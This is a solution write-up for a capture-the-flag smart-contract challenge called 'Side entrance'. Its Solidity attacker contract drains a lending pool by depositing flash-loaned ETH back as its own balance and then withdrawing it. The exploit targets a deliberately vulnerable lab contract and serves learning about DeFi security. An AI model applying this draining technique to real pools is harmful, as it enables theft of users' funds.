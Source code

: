 # Challenge #4 - Side entrance

A surprisingly simple lending pool allows anyone to deposit ETH, and withdraw it at any point in time.

This very simple lending pool has 1000 ETH in balance already, and is offering free flash loans using the deposited ETH to promote their system.

You must take all ETH from the lending pool

# Solution

```
contract Attacker {
    address payable attacker;

    function callFlashLoan(address _contract, address _attacker) public {
        uint256 amount = _contract.balance;
        attacker = payable(_attacker);
        SideEntrance(_contract).flashLoan(amount);
        SideEntrance(_contract).withdraw();
    }

    function execute() public payable {
        SideEntrance(msg.sender).deposit{value: msg.value}();
    }

    receive() external payable {
        // console.log("attacker before", attacker.balance);
        // console.log("balance:", address(this).balance);
        attacker.transfer(address(this).balance);
        // console.log("attacker after", attacker.balance);
    }
}
```
